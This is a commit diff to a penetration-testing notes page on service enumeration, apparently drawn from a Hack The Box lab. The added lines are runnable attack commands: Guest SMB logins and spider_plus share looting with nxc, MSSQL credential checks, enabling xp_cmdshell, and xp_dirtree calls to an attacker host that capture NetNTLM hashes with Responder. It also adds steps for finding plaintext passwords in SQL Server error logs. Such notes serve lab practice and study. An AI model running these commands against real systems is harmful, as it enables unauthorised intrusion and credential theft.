

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from recon/service_enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 5629 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Add SMB spider_plus, Guest auth, MSSQL nxc validation, SQL Server error log hunting
New techniques from HTB Escape: spider_plus module for nxc SMB, Guest auth pattern distinct from null session, nxc mssql credential validation with --local-auth flag, SQL Server error log (ERRORLOG/ERRORLOG.BAK) as a post-compromise credential source.

````diff
--- a/recon/service_enumeration.md
+++ b/recon/service_enumeration.md
@@ -154,6 +154,12 @@
 nmap --script smb-vuln-ms17-010 -p 445 $IP
 ```
 
+**Guest auth (distinct from null session — some configs allow Guest but not null):**
+```bash
+nxc smb $IP -u Guest -p ''
+nxc smb $IP -u Guest -p '' --shares
+```
+
 **With creds:**
 ```bash
 nxc smb $IP -u user -p 'password'
@@ -164,8 +170,14 @@
 
 # Connect to share
 smbclient \\\\$IP\\ShareName -U user
+# Recursive listing
+smbclient \\\\$IP\\ShareName -U 'user%password' -c 'recurse ON; ls'
 # Recursive download
 smbclient \\\\$IP\\ShareName -U user -c 'prompt OFF;recurse ON;mget *'
+
+# spider_plus — recursively crawl and download all accessible share content
+nxc smb $IP -u user -p 'password' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=/tmp/smb MAX_FILE_SIZE=5000000
+# Works with Guest too: -u Guest -p ''
 
 # Mount share
 mount -t cifs //$IP/ShareName /mnt/smb -o username=user,password=pass
@@ -250,6 +262,12 @@
 impacket-mssqlclient sa:@$IP
 ```
 
+**Validate creds:**
+```bash
+nxc mssql $IP -u user -p 'password'              # domain/Windows auth
+nxc mssql $IP -u user -p 'password' --local-auth # SQL Server auth (not Windows auth)
+```
+
 **With creds:**
 ```bash
 impacket-mssqlclient user:'password'@$IP
@@ -265,11 +283,31 @@
 EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
 EXEC xp_cmdshell 'whoami';
 
-# Capture NetNTLM hash (relay to Responder)
+# Capture NetNTLM hash — forces outbound SMB auth from the SQL service account
+# Run Responder first: responder -I eth0 -wd
 EXEC xp_dirtree '\\$LHOST\share';
+EXEC master..xp_dirtree '\\$LHOST\share\file.txt'   # alternate syntax
 ```
 
 > xp_cmdshell = OS command execution. xp_dirtree = steal NetNTLM hash.
+
+**Post-compromise: SQL Server error log credential hunting**
+
+SQL Server logs the username field verbatim for every failed login (Error 18456). If a user typed their password into the username field, it appears in plaintext in the log.
+
+```powershell
+# Default log location (adjust MSSQL version/instance name)
+type "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Log\ERRORLOG"
+type "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Log\ERRORLOG.BAK"
+
+# Custom log path — check startup params in the log file header or registry:
+reg query "HKLM\SOFTWARE\Microsoft\Microsoft SQL Server" /s | findstr /i "errorlogpath"
+
+# Filter for failed logins — any that look like passwords are worth testing
+Select-String -Path "C:\...\ERRORLOG*" -Pattern "18456" | Select-String -NotMatch "domain\\"
+```
+
+Look for consecutive 18456 events: first with a recognizable username, then immediately with a string that looks like a password. The second "username" is the credential.
 
 ---
 
````
